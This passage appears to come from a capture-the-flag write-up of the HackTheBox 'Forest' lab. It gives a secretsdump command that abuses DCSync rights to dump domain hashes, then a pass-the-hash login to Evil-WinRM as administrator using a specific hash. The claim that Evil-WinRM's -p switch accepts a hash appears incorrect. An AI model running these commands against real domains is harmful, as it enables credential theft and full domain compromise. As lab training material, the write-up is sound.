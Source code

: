 Now that we have an account with the DCSync rights we can use Impacket's secretsdump.py script to Sync the Domain Controller remotely and capture the domain hashes. Run the following command to run the script:

```aspnet
impacket-secretsdump htb.local/akimbo:Password123@10.10.10.161
```

![](<../../../.gitbook/assets/image (343) (1).png>)

We can see from the first result we have the administrators hash. We can use a pass the hash attack with this hash to login to Evil-WinRM as the administrator account.

Evil-WinRM will accept a hash instead of a password using the `-p` switch.

```aspnet
evil-winrm -u administrator -p aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 -i forest.htb.local
```

![](<../../../.gitbook/assets/image (344).png>)
